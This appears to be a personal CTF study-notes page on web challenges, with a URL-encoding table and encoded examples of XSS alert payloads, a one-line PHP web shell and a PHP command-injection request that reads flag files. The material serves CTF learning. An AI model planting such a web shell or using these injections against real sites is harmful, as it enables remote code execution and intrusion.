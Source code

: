 ```yaml
---
title: "My Web notes [Notes]"
toc: true
toc_label: "cat contents.md"
toc_icon: "terminal"
---
```

Small things you need to know for the web category in CTF ~~I guess~~.

# URL Encoded and Decoded

| Character | Encoded | Character | Encoded | Character | Encoded |
|-----------|---------|-----------|---------|-----------|---------|
| `space`   | %20     | `0`       | %30     | `@`       | %40     |
| `!`       | %21     | `1`       | %31     | `A-Z`     | %41-%5A |
| `"`       | %22     | `2`       | %32     | `[`       | %5B     |
| `#`       | %23     | `3`       | %33     | `\`       | %5C     |
| `$`       | %24     | `4`       | %34     | `]`       | %5D     |
| `%`       | %25     | `5`       | %35     | `^`       | %5E     |
| `&`       | %26     | `6`       | %36     | `_`       | %5F     |
| `'`       | %27     | `7`       | %37     | `backtick`| %60     |
| `(`       | %28     | `8`       | %38     | `a-z`     | %61-%7A |
| `)`       | %29     | `9`       | %39     | `{`       | %7B     |
| `*`       | %2A     | `:`       | %3A     | `pipe`    | %7C     |
| `+`       | %2B     | `;`       | %3B     | `}`       | %7D     |
| `,`       | %2C     | `<`       | %3C     | `~`       | %7E     |
| `-`       | %2D     | `=`       | %3D     |
| `.`       | %2E     | `>`       | %3E     |
| `/`       | %2F     | `?`       | %3F     |

Online Tool:

1. [URL-Encoder](https://www.urlencoder.org/)
2. [W3Schools-URL-Encoding-Map](https://www.w3schools.com/tags/ref_urlencode.ASP)

## Examples

```html
<!-- Example 1: XSS Common Payloads -->
1. <script>alert('XSS');</script>
2. javascript:alert('XSS');

<!-- Encoded results -->
1. %3Cscript%3Ealert%28%27XSS%27%29%3B%3C%2Fscript%3E
2. javascript%3Aalert%28%27XSS%27%29%3B

<!-- Example 2: PHP Command Injection Payloads -->
1. GET /uploads/payload.PHP?cmd=
   foreach (glob("../flag*") as $filename) {echo "$filename => ";var_dump(file_get_contents($filename));};
2. <?php system($_GET['cmd']); ?>

<!-- Encoded results -->
1. GET /uploads/payload.PHP?cmd=
   foreach%20(glob(%22..%2Fflag%2A%22)%20as%20%24filename)%20
   %7Becho%20%22%24filename%20%3D%3E%20%22%3Bvar_dump(file_get_contents(%24filename))%3B%7D%3B
2. %3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E
```

Updating...
